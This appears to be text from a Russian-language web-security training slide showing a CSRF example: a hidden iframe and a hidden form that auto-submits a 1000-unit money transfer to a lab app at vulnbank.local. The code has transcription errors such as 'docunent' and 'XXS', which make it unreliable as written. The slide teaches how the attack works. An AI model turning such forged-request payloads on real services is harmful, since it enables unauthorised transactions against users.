

Пример CSRF
Основные атаки и паттерны:
Client-Side: XXS, CSRF
<iframe style="display:none" name="csrf-frame"></iframe>
<form name="csrf_form" action="http: //vulnbank.local/vulnbank/online/api.php?none" method="POST" target="csrf-frame">
    <input type="hidden" name="type" value="transaction">
    <input type="hidden" name="action" value="send">
    <input type="hidden" name="sender" value="DE12345123451234512345">
    <input type="hidden" name="recipient" value="DE@0000111112222233333">
    <input type="hidden" name="creditcard" value="">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="comment" value="Transfer via CSRF">
  </form>
<script type="text/javascript" >docunent.csrf_form.submit();</script>